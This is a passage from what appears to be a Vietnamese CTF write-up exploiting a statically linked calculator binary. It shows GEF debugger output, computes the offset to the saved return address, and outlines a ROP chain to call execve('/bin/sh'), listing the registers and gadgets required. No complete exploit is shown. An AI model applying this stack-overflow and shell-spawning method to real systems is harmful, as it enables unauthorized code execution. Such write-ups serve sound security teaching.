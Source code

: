 ```bash
Expected number of calculations: 50
Options Menu: 
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 1
Integer x: 16111312
Integer y: 16111312
Result for x + y is 32222624.

Options Menu: 
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 5
gef➤  search-pattern 0x1EBADA0
[+] Searching '0x1EBADA0' in memory
gef➤  search-pattern 0x1ebada0
[+] Searching '0x1ebada0' in memory
gef➤  search-pattern 0x0000000001ebada0
[+] Searching '\xa0\xad\xeb\x01\x00\x00\x00\x00' in memory
[+] In '[heap]'(0x6c3000-0x6c6000), permission=rw-
  0x6c4a88 - 0x6c4aa8  →   "\xa0\xad\xeb\x01\x00\x00\x00\x00[...]" 
[+] In '[heap]'(0x6c6000-0x6e9000), permission=rw-
  0x6c8bf0 - 0x6c8c10  →   "\xa0\xad\xeb\x01\x00\x00\x00\x00[...]" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffaf98 - 0x7fffffffafb8  →   "\xa0\xad\xeb\x01\x00\x00\x00\x00[...]" 
  0x7fffffffdd30 - 0x7fffffffdd50  →   "\xa0\xad\xeb\x01\x00\x00\x00\x00[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdd80:
 rip = 0x40154a in main; saved rip = 0x0
 Arglist at 0x7fffffffdd70, args: 
 Locals at 0x7fffffffdd70, Previous frame's sp is 0x7fffffffdd80
 Saved registers:
  rbp at 0x7fffffffdd70, rip at 0x7fffffffdd78
```

Ta tính toán được offset giữa ret addr và giá trị `v20` là:
```bash 
>>> hex(0x7fffffffdd78 - 0x7fffffffdd30)
'0x48'
```
Để có thể ghi đè 0x48 bytes này ta cần đến 18 số kiểu int. 
Vì tệp nhị phân được liên kết tĩnh và không có PIE nên ta chỉ có thể xây dựng chuỗi rop bằng cách sử dụng chính file binary với những gì đã có (ret2text). Chuỗi ROP về cơ bản sẽ chỉ tạo một cuộc gọi hàm execve("/bin/sh",0,0). Có bốn thanh ghi mà chúng ta cần kiểm soát
```
rax:  0x3b              Specify execve syscall
rdi:  ptr to "/bin/sh"  Specify file to run
rsi:  0x0               Specify no arguments
rdx:  0x0               Specify no environment variables
```
Để làm được điều này, trường hợp tốt nhất là chúng ta tìm được các ropgadget như là `pop rax; ret`. 
Chúng ta cũng cần một gadget để lưu string "/bin/sh" vào một vùng nhớ nào đó mà ta đã biết.
